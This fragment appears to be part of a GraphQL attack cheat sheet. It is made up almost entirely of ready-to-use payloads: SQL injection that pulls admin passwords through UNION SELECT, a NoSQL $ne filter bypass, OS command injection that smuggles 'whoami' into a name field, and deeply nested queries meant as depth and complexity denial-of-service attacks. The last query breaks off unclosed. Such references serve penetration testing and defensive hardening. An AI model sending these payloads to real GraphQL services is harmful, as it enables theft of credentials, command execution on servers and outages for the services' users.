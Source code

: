 **GraphQL Injection Attacks:**
```graphql
# SQL injection through GraphQL
query {
  user(id: "1' UNION SELECT password FROM admins-- ") {
    id
    name
  }
}

# NoSQL injection
query {
  user(filter: {name: {$ne: null}}) {
    id
    name
    email
  }
}

# OS command injection
mutation {
  updateUser(id: 1, name: "test; whoami; #") {
    id
    name
  }
}
```

**GraphQL DoS Attacks:**
```graphql
# Query depth attack
query {
  user(id: 1) {
    posts {
      comments {
        author {
          posts {
            comments {
              author {
                posts {
                  comments {
                    # ... continue nesting
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}

# Query complexity attack
query {
  users(first: 1000) {
    posts(first: 1000) {
      comments(first: 1000) {
        author {
          id
          name
          email
        }
      }
    }
```